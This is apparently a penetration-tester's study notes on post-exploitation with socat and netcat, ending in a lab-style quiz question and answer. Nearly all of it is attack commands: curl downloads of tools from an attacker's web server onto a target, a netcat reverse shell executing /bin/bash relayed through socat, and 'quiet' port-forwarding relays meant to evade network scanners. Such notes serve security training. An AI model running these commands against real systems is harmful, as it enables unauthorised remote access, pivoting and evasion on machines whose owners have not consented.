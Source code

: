 
**Socat example with Python webserver**
Create webserver on attacking machine:

    python3 -m http.server 80 

on target machine:

    curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648928419334_image.png)


**Reverse Shell - Socat**
Locally set up listener: `rlwrap nc -lvnp 80`

Create connection tunnel with socat

    ./socat-exec tcp-1:9000 tcp:10.50.91.32 &

next upload `nc` to target via curl:

    curl 10.50.91.32/nc -o nc-exec

Create connection via localhost and created port 9000

    ./nc-exec 127.0.0.1 9000 -e /bin/bash

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648929380375_image.png)

**Port Forwarding - Easy**
Opens up a port on compromised server and redirects whattever come into the target server  to another server/port


    ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &

from the example port 33060 redirects input from attacking machine to intented target server.

`fork` - puts every connect into a new process
`reuseadd` - port stays open after connection is made to it
`&` - background shell

**Port Forwarding - Quite**
previous easy port forward can be easily seen from netwok scanners thus acts a secondary means to create a port forward from a compromised machine.

on attacking machine:
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`
opens ports: 8000 and 8001 to create a local port relay

compromised target:
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`
connection is made from port 8001 on attacking machine to open port.

Example:

If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?

    ./socat tcp-l:8000 tcp:172.16.0.200:443
